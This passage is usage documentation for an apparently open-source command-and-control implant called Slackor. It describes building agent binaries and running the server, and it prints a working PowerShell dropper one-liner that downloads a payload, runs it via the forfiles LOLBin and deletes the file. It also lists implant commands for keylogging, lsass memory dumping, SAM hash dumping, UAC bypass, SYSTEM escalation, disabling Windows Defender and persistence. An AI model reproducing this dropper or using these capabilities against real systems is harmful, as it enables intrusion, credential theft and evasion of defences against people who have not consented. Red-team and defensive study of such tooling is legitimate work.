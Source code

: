 After running the script successfully, several files will be created in the `dist/` directory:
- `agent.windows.exe`: Windows 64-bit binary
- `agent.upx.exe`: Windows 64-bit binary, UPX packed
- `agent.darwin`: macOS 64-bit binary
- `agent.32.linux`: Linux 32-bit binary
- `agent.64.linux`: Linux 64-bit binary 

After starting `server.py` on a Linux host, execute whichever agent above is appropriate for your target host.

Run the "stager" module to generate a one-liner and other droppers.
```
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
```
This will execute InvokeWebRequest(PS v.3+) to download the payload, execute it using a [LOLBin](https://lolbas-project.github.io/lolbas/Binaries/Forfiles/), and then delete itself once killed.  This is a working example but the command can tweaked to use another download method or execution method.   

Usage 
=====
Type "help" or press [TAB] to see a list of available commands.  type "help [COMMAND]" to see a description of that command.

```(Slackor)```

- **help** - Displays help menu
- **interact** - Interact with an agent
- **list** - List all registered agents
- **remove** - kill and remove an agent
- **revive** - Sends a signal to all agents to re-register with the server
- **stager** - Generates a one-liner to download an execute the implant
- **quit** - Quit the program
- **wipefiles** - Deletes all uploaded files out of Slack

Once an agent checks in, you can interact with it.
Use "interact [AGENT] to enter into an agent prompt.  Type "help" or press [TAB] to see a list of available commands.

```(Slackor:AGENT)```

- Common Commands
    - **back** - Return to the main menu
    - **beacon** - change the amount of time between each check-in by an agent (default is 5 seconds)
    - **download** - Download a file from the agent to the Slackor server
    - **help** - Displays help menu
    - **kill** - Kill the agent
    - **sleep** - Cause the agent to sleep once (enter time in seconds)
    - **sysinfo** - Displays the current user, OS version, system architecture, and number of CPU cores
    - **upload** - Upload a file to the agent from the Slackor server
    - **wget** - Pull down arbitrary files over HTTP/HTTPS 
- Windows Commands
    - **bypassuac** - Attempts to spawn a high integrity agent
    - **cleanup** - Removes persistence artifacts
    - **clipboard** - Retreives the contents of the clipboard
    - **defanger** - Attempts to de-fang Windows Defender
    - **duplicate** - Causes the agent to spawn another invocation of itself
    - **getsystem** - Spawns an agent as NTAUTHORITY/SYSTEM
    - **keyscan** - Starts a keylogger on the agent
    - **minidump** - Dumps memory from lsass.exe and downloads it  
    - **persist** - Creates persistence by implanting a binary in an ADS
    - **samdump** - Attempts to dump the SAM file for offline hash extraction
    - **screenshot** - Takes a screenshot of the desktop and retrieves it
```
